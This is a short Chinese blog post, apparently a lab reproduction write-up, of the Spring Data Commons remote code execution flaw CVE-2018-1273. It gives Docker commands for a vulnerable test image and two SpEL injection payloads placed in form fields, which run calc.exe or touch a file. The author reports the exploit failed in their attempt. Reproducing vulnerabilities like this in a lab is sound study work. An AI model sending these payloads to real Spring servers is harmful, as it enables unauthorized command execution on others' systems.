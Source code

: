 ```yaml
---
title: Spring Data Commons 代码执行漏洞(CVE-2018-1273)
category: 
- 渗透测试
tags: 
- Pocsuite
- Docker
- 漏洞复现
---
```


### 漏洞概述

- [影响版本](https://xz.aliyun.com/t/2269)

### 漏洞环境搭建

- 拉取镜像到本地

```bash
$ docker pull medicean/vulapps:s_spring_2
```

- 启动环境

```bash
$ docker run -d -p 8080:8080 medicean/vulapps:s_spring_2
```

![image-20201126152558756](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201126152558756.png)

<!-- more -->

### 漏洞利用

- 访问 `http://你的 IP 地址:端口号/`

- Poc

```python
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe")]=chybeta&password=chybeta&repeatedPassword=chybeta
```

```python
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("/bin/touch /tmp/vuln")]=test&password=test&repeatedPassword=test
```

- 利用过程

![image-20201126152357791](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201126152357791.png)

ps:这里没有利用成功，有兴趣可以再去试试其他poc。相关链接里面有大师傅写的详细分析。

### 参考链接

[references](https://xz.aliyun.com/t/2269)

<!-- more -->
